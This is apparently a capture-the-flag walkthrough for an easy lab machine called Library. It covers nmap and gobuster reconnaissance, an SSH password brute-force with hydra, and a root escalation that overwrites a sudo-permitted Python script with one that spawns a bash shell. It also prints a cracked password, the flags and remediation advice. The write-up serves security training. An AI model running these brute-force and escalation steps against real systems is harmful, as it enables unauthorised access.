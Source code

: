 # Library CTF Walkthrough

## Overview
Library is a Capture The Flag (CTF) machine designed to practice penetration testing skills. The goal is to gain root access and retrieve both user and root flags. This walkthrough documents the steps taken to compromise the machine.

**Machine IP:** 10.10.218.43  
**Difficulty:** Easy  
**Tags:** SSH, Web, Brute-Force, Privilege Escalation, Sudo Misconfiguration

---

## Reconnaissance

### Nmap Scan
```bash
nmap -A 10.10.218.43
```

**Findings:**
- **Port 22/tcp:** OpenSSH 7.2p2 Ubuntu
- **Port 80/tcp:** Apache httpd 2.4.18 (Ubuntu)
- **OS:** Linux 4.4

### Gobuster Directory Enumeration
```bash
gobuster dir -u http://10.10.218.43/ -w /usr/share/wordlists/dirb/common.txt -x php,txt,html,js -t 50
```

**Key Findings:**
- `robots.txt` contains:
  ```
  User-agent: rockyou
  Disallow: /
  ```
- `index.html` reveals a username: `meliodas`

---

## Initial Access

### SSH Brute-Force with Hydra
Using the username `meliodas` and the `rockyou.txt` wordlist:
```bash
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.218.43 -t 4
```

**Result:**  
Password found: `iloveyou1`

### SSH Login
```bash
ssh meliodas@10.10.218.43
```

### User Flag
Located at `/home/meliodas/user.txt`:  
`6d488cbb3f111d135722c33cb635f4ec`

---

## Privilege Escalation

### Enumeration
- Discovered `bak.py` in `/home/meliodas/` (owned by root):
  ```python
  #!/usr/bin/env python
  import os
  import zipfile

  def zipdir(path, ziph):
      for root, dirs, files in os.walk(path):
          for file in files:
              ziph.write(os.path.join(root, file))

  if __name__ == '__main__':
      zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
      zipdir('/var/www/html', zipf)
      zipf.close()
  ```

- Checked sudo permissions:
  ```bash
  sudo -l
  ```
  **Output:**
  ```
  User meliodas may run the following commands on ubuntu:
      (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
  ```

### Exploitation
1. Removed the original `bak.py` (writable home directory):
   ```bash
   rm bak.py
   ```

2. Created a malicious `bak.py`:
   ```bash
   echo 'import os; os.system("/bin/bash")' > bak.py
   ```

3. Executed with sudo to gain root shell:
   ```bash
   sudo /usr/bin/python3 /home/meliodas/bak.py
   ```

### Root Flag
Located at `/root/root.txt`:  
`e8c8c6c256c35515d1d344ee0488c617`

---

## Key Takeaways
1. **Information Disclosure:** `robots.txt` and `index.html` leaked critical hints (username and wordlist).
2. **Brute-Force Protection:** Use strong passwords to prevent SSH brute-forcing.
3. **Sudo Misconfiguration:** Restrict sudo permissions to prevent arbitrary code execution.

---

## Remediation
- Use strong, unique passwords for SSH.
- Avoid disclosing usernames in web content.
- Restrict sudo permissions to specific commands without wildcards.
- Regularly audit sudo rules and file permissions.

---

## Tools Used
- Nmap
- Gobuster
- Hydra
- SSH

---

## References
- [Rockyou Wordlist](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)
- [Hydra GitHub](https://github.com/vanhauser-thc/thc-hydra)

---

**Author:** [Your Name]  
**Date:** September 1, 2025  
**License:** MIT
